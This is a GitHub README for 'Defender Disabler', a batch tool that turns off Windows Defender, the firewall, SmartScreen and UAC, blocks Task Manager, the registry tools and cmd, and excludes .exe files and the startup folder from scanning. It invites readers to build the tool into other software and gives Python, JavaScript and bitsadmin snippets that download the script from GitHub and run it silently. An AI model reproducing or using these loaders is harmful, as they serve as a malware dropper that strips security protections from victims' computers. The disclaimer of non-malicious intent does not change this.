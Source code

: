 <h1 align="center">
  Defender Disabler ➰
</h1>
<p align="center">
  Destroy Windows Defender so hard that it doesn't even know it exists anymore
</p>

<p align="center">
  <kbd>
    <img src="https://raw.githubusercontent.com/Rdimo/images/master/Defender-Disabler/defender-disabler.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Defender-disabler?style=flat-square"/>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Defender-disabler?style=flat-square"/>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Defender-disabler&metric=ncloc"/>
  <img src="https://img.shields.io/github/stars/Rdimo/Defender-disabler?color=5ac18e&label=Stars&style=flat-square"/>
  <img src="https://img.shields.io/github/forks/Rdimo/Defender-disabler?color=5ac18e&label=Forks&style=flat-square"/>
</p>

<h2 align="center">
  Defender-disabler was made by

Love ❌ code ✅

</h2>

---

## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://cheataway.com/invite)
- [🎉・Using defender-disabler](#setup)
- [🌱・Inspiration/Credits](#credits)
- [❕・Warning](#warning)

## <a id="features"></a>🔰 〢 Features

```
> Disables Windows Defender completely
> Disables Automatic Sample Submission and Quickscan
> Disables Windows FireWall, Smart Screen, and other security features
> Disables important security settings such as Real-time and Ransomware protection, AntiSpyware, BehaviorMonitoring,  etc..
> Adds .exe and .bat files as exclusions and the startup folder as exclusions
> Disables UAC (Reboot Required)
> Disables TaskManager, Registrytools, cmd, run
> + More!
```

## <p align="left"><img src="https://raw.githubusercontent.com/Rdimo/images/master/Defender-Disabler/Screenshot%202021-10-14%20162401.png">

---

## <a id="setup"></a> 📁 〢 Using defender-disabler

First off you need to figure out if you want to use this program alone or use it in some other software that downloads and runs it.

1. Compiling the program
   There are multiple ways of compiling a batch file,

   - [Converting Batch file to Exe via IExpress](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_file_to_EXE_via_IExpress)
     - [Converting Batch Scripts to Exe with Bat To Exe Converter](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_Scripts_to_EXE_with_Bat_To_Exe_Converter)
       - [Converting Batch Scripts to Exe via Advanced BAT to EXE Converter](https://adamtheautomator.com/bat-to-exe/#Converting_BAT_Scripts_to_EXE_via_Advanced_BAT_to_EXE_Converter)
<br>
2. Implementing it in your software
   Depending on what language you're using, it will require different ways of implementing it.
   Here are some examples:

- [Python](https://www.python.org/):

```python
import requests, os
_file = requests.get('https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat')

with open('demo.bat', 'w') as f:
    f.write(_file.text)

os.startfile('demo.bat')
```

- [Javascript](https://nodejs.org/en/):

```javascript
const { exec } = require('child_process');
const fs = require('fs');
const axios = require('axios');

axios.get('https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat', {
    responseType: 'text',
  }).then((response) => {
    fs.writeFileSync('disabler.bat', response.data, { flag: 'a' }, (err) => {});
  });
exec('demo.bat');
```

- [Batch](https://en.wikipedia.org/wiki/Batch_file):

```batch
bitsadmin /transfer Packages /download /priority foreground https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat "demo.bat"
start demo.bat
```

## <a id="warn"></a> ❕ 〢 Warning 
  Running this program will completely disable Windows Defender. This program was not made to be used for any malicious purposes.
  If you now accidently ran this program on your main pc instead of a vm, reverting the changes will be hard but most of them can be fixed by runnig [enabler.bat](https://github.com/Rdimo/Defender-disabler/blob/main/enabler.bat) as admin

## <a id="credits"></a> 🌱 〢 Inspiration/Credits
  Most of the code is taken from [swagkarna](https://github.com/swagkarna) and his [Defender-disabler](https://github.com/swagkarna/Defeat-Defender-V1.2)
  This one is just more smoother, improvded, more user friendly and has more features.


By using Defender Disabler, you agree that you hold responsibility and accountability of any consequences caused by your actions